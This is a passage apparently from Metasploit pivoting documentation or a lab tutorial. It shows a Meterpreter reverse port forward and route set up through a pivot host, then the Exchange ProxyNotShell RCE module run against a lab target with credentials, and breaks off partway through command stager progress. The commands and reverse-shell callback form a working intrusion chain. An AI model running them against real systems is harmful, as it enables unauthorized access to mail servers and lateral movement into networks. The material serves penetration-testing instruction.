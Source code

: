 Now we can set up a reverse port forward on the pivot host to let the
connection back from the target reach the pentester's host. The syntax is
`portfwd add -L <destination IP> -l <destination port> -R -p <local port to
listen from on the pivot>`:
```
msf6 auxiliary(scanner/http/owa_ews_login) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd add -L 192.168.100.243 -l 4444 -R -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 192.168.100.243:4444
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local                 Remote        Direction
   -----  -----                 ------        ---------
   1      192.168.100.243:4444  0.0.0.0:4444  Reverse

1 total active port forwards.

meterpreter >
Background session 2? [y/N]
```

Finally, set up the route again, but this time, let's use the Meterpreter
session (session #2) instead (it is faster than the original SSH session):
```
msf6 payload(windows/meterpreter/reverse_tcp) > route add 192.168.144.0/24 2
[*] Route added
msf6 payload(windows/meterpreter/reverse_tcp) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.144.0      255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
```

We can now run the exploit module with LHOST setup to the pentester's host IP.
The Framework will take care of starting a handler automatically, waiting for
the payload to connect back:
```
msf6 payload(windows/meterpreter/reverse_tcp) > use exploit/windows/http/exchange_proxynotshell_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit rhosts=192.168.101.217 USERNAME=mailuser@newlab.local PASSWORD=123456 lhost=192.168.101.229 lhost=192.168.100.243

[*] Started reverse TCP handler on 192.168.100.243:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Target is an Exchange Server!
[*] Command Stager progress -   7.42% done (7499/101079 bytes)
[*] Command Stager progress -  14.84% done (14998/101079 bytes)
[*] Command Stager progress -  22.26% done (22497/101079 bytes)
[*] Command Stager progress -  29.68% done (29996/101079 bytes)
[*] Command Stager progress -  37.09% done (37495/101079 bytes)
[*] Command Stager progress -  44.51% done (44994/101079 bytes)
[*] Command Stager progress -  51.93% done (52493/101079 bytes)
[*] Command Stager progress -  59.35% done (59992/101079 bytes)
[*] Command Stager progress -  66.77% done (67491/101079 bytes)
[*] Command Stager progress -  74.19% done (74990/101079 bytes)
```